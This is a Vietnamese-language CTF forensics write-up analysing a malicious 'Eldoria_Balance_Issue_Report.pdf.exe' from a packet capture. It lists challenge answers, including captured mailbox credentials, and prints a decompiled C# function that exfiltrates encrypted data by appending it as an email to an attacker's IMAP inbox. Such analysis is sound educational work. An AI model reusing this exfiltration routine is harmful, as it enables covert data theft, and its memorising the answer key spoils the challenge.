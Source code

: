 ![image](https://github.com/user-attachments/assets/3a9a1280-c323-4c34-9e0f-1c0d348c63e6)

Unzip nhận được 1 file `Eldoria_Balance_Issue_Report.pdf.exe`

![image](https://github.com/user-attachments/assets/0f82fa6e-f65a-48de-a604-63b2cddf66f3)

```
Answer: c0b37994963cc0aadd6e78a256c51547
```

>4. What credentials were used to log into the attacker's mailbox? (Format: username:password)

Lúc mới vào làm, thì mình thấy có khá nhiều packet, nên có hỏi AI xem cần chú ý vào những protocol nào thì có được chỉ rằng là `IMAP`

Thử lọc IMAP thì có đc luôn username và password

![image](https://github.com/user-attachments/assets/5e35d627-5f5e-4bef-a004-a860589ff5f4)

Hoặc là có thể reverse con `malware` kia, `.Net` mình dùng dotpeek để decomplie

![image](https://github.com/user-attachments/assets/9bd428c9-c419-4616-940d-0e630be34955)

Chương trình trên viết bằng `C#` để kết nối đến `IMAP server` sử dụng giao thức `TCP` và `SSL/TLS`

Nhìn vào hàm creds, đây là hàm lưu thông tin đăng nhập để có thể xác thực với máy chủ email `mail.korptech.net`

![image](https://github.com/user-attachments/assets/bc52c9fe-a5ab-4534-84e0-c83a30040fe4)

```
Answer: proplayer@email.com:completed
```
>5. What is the name of the task scheduled by the attacker?

Khi làm thì mình cần tìm câu trả lời càng sớm càng tốt, nên đã kiểu đoán mò khá nhiều, mình đã follow hết các stream liên quan đến IMAP nhưng kh thấy có task scheduled nào của attacker, nên mình nghĩ khả năng rất cao là nó nằm trong đống bị mã hóa này

![image](https://github.com/user-attachments/assets/7f906478-0d21-41c5-a15f-878c7c15d78c)

Từ đây mình sẽ đi vào phân tích đoạn code C#, chú ý đến các hàm sau

```C#
private static void create(string text)
    {
      text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + Program.comp_id + "\r\n\r\n" + text;
      byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + text.Length.ToString() + "}\r\n" + text + "\r\n");
      Task.Factory.FromAsync<byte[], int, int>(new Func<byte[], int, int, AsyncCallback, object, IAsyncResult>(((Stream) Program.ssl).BeginWrite), new Action<IAsyncResult>(((Stream) Program.ssl).EndWrite), bytes, 0, bytes.Length, (object) Program.ssl);
    }
```

Hàm create tạo một email cơ bản với thông tin người gửi, chủ đề (dựa trên thời gian và comp_id), và nội dung text. Sau đó, nó gửi email này lên máy chủ IMAP (vào thư mục "Inbox") thông qua kết nối mạng bảo mật (Program.ssl). Nội dung gửi chính là đoạn văn bản bị mã hóa kia
